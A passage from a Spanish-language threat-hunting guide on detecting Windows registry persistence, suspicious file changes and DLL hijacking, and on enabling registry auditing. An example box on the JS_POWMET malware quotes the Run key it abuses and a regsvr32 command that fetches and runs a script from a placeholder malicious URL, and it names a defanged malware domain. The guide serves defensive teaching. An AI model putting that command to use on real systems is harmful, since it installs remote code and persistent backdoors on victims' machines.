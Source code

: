 El registro de Windows y los archivos del sistema son componentes críticos que pueden influir significativamente en el funcionamiento del sistema operativo. Dado su poder, es fundamental estar alerta a cualquier cambio inesperado que pueda indicar una posible amenaza o actividad maliciosa.

Al buscar posibles amenazas en el registro de Windows o en los archivos del sistema, es importante tener en cuenta lo siguiente:

1. **Mecanismos de persistencia del registro**
Cualquier cambio en las claves o valores del registro que podrían indicar la instalación de programas maliciosos o la modificación de configuraciones importantes.

2. **Cambios en el registro**
Seguimiento de los cambios recientes en el registro para identificar actividades anómalas, como la creación o modificación de claves y valores por parte de aplicaciones desconocidas o no autorizadas.

3. **Fechas de creación/modificación de archivos** 
Fechas de creación y modificación de archivos críticos del sistema en busca de cambios inesperados que puedan indicar la presencia de malware o actividad sospechosa.

4. **Evidencia de secuestro de DLL**
Signos de secuestro de DLL, donde los archivos de bibliotecas compartidas esenciales del sistema son reemplazados o manipulados por versiones maliciosas para ejecutar código no autorizado.

Al mantener un monitoreo proactivo de estos elementos y estar alerta a los cambios inusuales, se puede detectar y responder rápidamente a posibles amenazas a la seguridad del sistema en entornos Windows.

### 5.3.4 Mecanismos de persistencia del registro y detección de amenazas en sistemas Windows


**1. Mecanismos de persistencia del registro:**

- El registro de Windows es un objetivo común para el malware que busca persistencia a través de reinicios del sistema.
- El malware puede utilizar claves de registro como puntos de inicio automáticos para ejecutar código malicioso al arrancar el sistema.


{: .example }
>**JS_POWMET:** Utiliza una entrada de registro de Auto inicio para descargar e instalar un troyano de puerta trasera de PowerShell.
>
>Clave del registro afectada: **`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`**
>
>Ejemplo de comando malicioso: **`regsvr32 /s /n /u /i:{URL maliciosa}scrobj.dll`**
>
>Con ello se instala el troyano de puerta trasera de script de PowerShell TROJ_PSINJECT y se conecta al sitio web de malware: bogerando[.]ru


**2. Habilitar la auditoría del registro:**

- La auditoría del registro es una función de seguridad de Windows que permite detectar el uso malicioso del registro como mecanismo de persistencia.
- Puede habilitarse mediante la configuración de directivas de grupo o mediante ajustes en Active Directory.

